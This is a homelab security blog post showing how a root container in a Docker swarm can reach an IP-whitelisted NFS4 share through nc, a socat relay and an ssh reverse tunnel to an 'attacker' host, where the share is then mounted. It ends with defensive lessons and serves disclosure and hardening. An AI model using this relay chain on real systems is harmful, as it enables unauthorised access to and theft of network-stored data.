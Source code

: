 ```yaml
---
title: "Pentesting NFS4 from inside a container"
date: 2025-07-19
tags:
- containers
- pentest
- network
featuredImage: /images/rohan-ZoXCoH7tja0-unsplash.jpg
---
```


## Introduction
I recently set-up a **docker swarm** and was so excited! I absolutely do not need it, but you know, one day I might (yea sure).

The first thing I learnt was that to operate a swarm you needed a sort of network storage or a highly available storage. NFS4 was the winner for me and a NFS VM was created and shares were made for hosting docker volumes, what could go wrong?!

Well, at first everything seemed fine, but as some of you may know, setting up auth on NFS is a bit painful, at least for me it is. By default there is no authentication and access control is demanded to IP whitelisting. Okay cool.

I of course locked in the subnet of the swarm, so absolutely no one outside of it could access the shares.. yeah.. **I also enabled the `secure` option on NFS**, that demands the source port of the TCP connection to be lower than 1024, so it needs to be originated from the root user, which is kind of smart, I wouldn't never have thought about this.

I deployed some containers and played a bit with everything for a few days to find the perfect setup and then I was hit with a existential doubt: **What if a container's security gets compromised?**

I mean, I am okay with the fact that the container can access his own data, but **what if the container is able to access the whole NFS share**? Naahhh I must be missing something.. but let's test it anyway..

I simulate an RCE on a container that gets run as root (a lot of them are) and download netcat. I launch it to connect directly to the NFS share with a low port.. and guess what? It works.

`nc -v -p 532 nfs-share-ip 2049`


![scared cat](/images/scared_cat.webp)

Okay now what? I mean **it should not be possible to mount the shares locally**, and in fact it's not, as there is the need of a privileged container.. ***but*** the TCP connection is open with the lower port and I cannot sleep at night by knowing that **the connection can be relayed somewhere** to be then mounted on a VM that has the `nfs` kernel module and all that it's needed to mount it..

I do a bit of research and decide to use `socat` to listen to port 2049 INSIDE the container while mapping it to the remote 2049 port of the NFS share, by specifying a source port that it's lower than 1024:

`socat TCP-LISTEN:2049,fork,reuseaddr TCP:NFSSERVER:2049,sourceport=532`

![donald duck gulp](/images/donald-duck-gulp.gif)

I now download `ssh` and launch: `ssh user@attacker -R 2049:127.0.0.1:2049`, with this command the **local port 2049 of the container gets mapped on the remote host** I am connecting to: `attacker`.

From the `attacker` host I then `sudo su` and issue `mount -t nfs4 127.0.0.1:/stuff /mnt` and... **it works**.

![crying dog](/images/crying_dog.gif)

I successfully mounted a share that I shouldn't have access to, on a host that is not on the subnet.

This is what I see from the NFS host:

`tcp        0      0 x.x.x.x:2049     y.y.y.y:532      ESTABLISHED`

## Lessons learned

1. **Running containers as root**, even if unprivileged, **may be dangerous**.
2. If you have to run software as root inside the container, at least **make them use a "internal" connection** on docker, so they cannot contact outside IP addresses.
3. If you can't limit to user root and internal connection, absolutely **deny it the possibility to contact the TCP port of the NFS share**.


## Conclusion

What has been discovered is theoretical hot water, I perfectly know it, but **I couldn't find any source on internet regarding the information gathering of NFS4 shares** and also I think I am not the only one that has a similar setup.

Before relaying the connection with `socat` I tried all `nmap` scripts, but found out that they work only for NFS 3 and lower, as they make use of the `rpcbind` service. I found no tool/guide to gather information regarding NFS 4 shares, so I decided to write this mini guide.

Hope it's appreciated.
